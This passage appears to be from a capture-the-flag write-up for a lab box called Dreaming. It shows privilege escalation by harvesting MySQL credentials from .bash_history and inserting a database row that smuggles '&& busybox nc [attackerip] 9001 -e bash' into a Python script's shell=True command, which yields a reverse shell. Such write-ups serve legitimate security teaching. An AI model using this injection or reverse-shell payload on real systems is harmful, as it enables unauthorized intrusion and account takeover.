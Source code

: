 Because I had success with the owner permissions, I did the same for the user `death`:
```bash
lucien@dreaming:~$ find / -user death -type f 2>/dev/null
  /opt/getDreams.py
  [...]
```

The file didn't help, so I proceeded with `sudo -l` and got the following output:
```bash
lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py

lucien@dreaming:/home/death$ sudo -u death python3 /home/death/getDreams.py
  Alice + Flying in the sky

  Bob + Exploring ancient ruins

  Carol + Becoming a successful entrepreneur

  Dave + Becoming a professional musician
```

After analyzing the script I was confident that it could be used to escalate my permissions. But first I needed the local Mysql credentials. For finding them, I analyzed the website directory but didn't find anything there. After checking the `.bash_history` of the user lucien I found MySql credentials:

```bash
lucien@dreaming:~$ cat .bash_history 
[...]
mysql -u lucien -p[removed]
```

I was able to log in and add an entry in the table, where the `getDreams.py` reads from:
```sql
mysql> insert into dreams (dreamer, dream) values ("'test'", "&&busybox nc [attackerip] 9001 -e bash");
```

After executing the `getDreams.py` as user `death` the `netcat` listener received the connection. This worked because of the following line in the python script:
```python
command = f"echo {dreamer} + {dream}"
shell = subprocess.check_output(command, text=True, shell=True)
```

The command in the shell was the following:
```bash
$ echo 'test' && busybox nc [attackerip] 9001 -e bash
```

With this misconfiguration I was able to, break out the command syntax and retrieve the next flag:
```bash
death@dreaming:~$ cat death_flag.txt 
THM{[removed]}
```
